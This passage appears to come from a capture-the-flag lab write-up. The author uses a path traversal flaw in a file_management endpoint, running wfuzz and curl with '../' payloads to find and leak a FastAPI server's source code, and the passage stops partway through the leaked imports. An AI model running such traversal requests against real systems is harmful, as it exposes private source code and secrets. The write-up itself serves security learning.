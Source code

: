 
That would be hard to guess in a live competition.

Still, I can fuzz for Python files in the same and parent directories with
`wfuzz`. I didn’t find anything in the current directory, but going up one:

    
    
    oxdf@parrot$ wfuzz -u http://10.10.11.123/file_management/?file=../FUZZ.py -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 21
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.123/file_management/?file=../FUZZ.py
    Total requests: 2588
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000212:   200        4 L      10 W     115 Ch      "server"
    
    Total time: 13.24183
    Processed Requests: 2588
    Filtered Requests: 2587
    Requests/sec.: 195.4412
    

The file loads the app:

    
    
    oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../server.py 
    import uvicorn
    
    if __name__ == "__main__":
        uvicorn.run("app.main:app", host="0.0.0.0", port=8000, reload=True)
    

`app.main:app` says it is going into a directory named `app`, loading
`main.py`, and then calling the `app` function.

I can leak the full source:

    
    
    oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../app/main.py                           
    from typing import Optional
    from fastapi import File, UploadFile, Request 
    from fastapi import FastAPI    
    from fastapi.encoders import jsonable_encoder
    from fastapi.responses import FileResponse, JSONResponse, PlainTextResponse
    from random import randrange                        
    import os, subprocess
    import json
    import uvicorn               
    import app.database           
    from urllib.parse import parse_qs
    import app.models                 
    